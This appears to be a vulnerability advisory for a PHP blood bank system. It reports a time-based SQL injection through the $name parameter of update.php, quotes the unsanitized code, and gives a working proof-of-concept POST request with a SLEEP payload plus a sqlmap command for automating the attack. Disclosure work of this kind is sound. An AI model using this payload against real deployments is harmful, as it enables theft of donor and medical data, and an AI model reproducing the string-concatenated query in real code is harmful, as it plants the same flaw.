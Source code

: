 # blood-bank-system-in-php update.php $name

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

update.php $name parameter.

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

## PROBLEM TYPE

network remote attack.

## Vulnerability Type

remote network time sql injection .  

## Root Cause

In update.php , SQL injection is used to obtain database information or getShell via $name parameter.

## Impact

## **Description of the vulnerability**

### update.php

In update.php，the    $name parameter is not filtered and concatenated into the SQL statement.        

```
<?php
session_start();

$con= mysqli_connect('localhost', 'root', 'root');
mysqli_select_db($con,'bloodbank');
$name=$_POST['name'];
$email=$_POST['email'];
$city=$_POST['city'];
$blood=$_POST['blood'];
$mobile=$_POST['mobile'];
$s = "select * from userdetail where name= '$name";
```

​                                                                                                                                                                                                                                                                                                                                                                                         

![image-20241009234224851](https://github.com/user-attachments/assets/7150e583-3686-4ff6-b1a0-b0c5b4f59843)

## **Vulnerability recurrence**

### **POC**

```
POST /update.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/update.php
Cookie: PHPSESSID=7nrs3h9tnqiosb90cj21sji60c
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=1' AND (SELECT 2529 FROM (SELECT(SLEEP(5)))BseP) AND 'Ggnf'='Ggnf
```

save it as 1.txt

excute the command.

```
python sqlmap.py -r "1.txt"
```

result

![image-20241009234339974](https://github.com/user-attachments/assets/773acbd0-df21-49ef-ab70-261595dda734)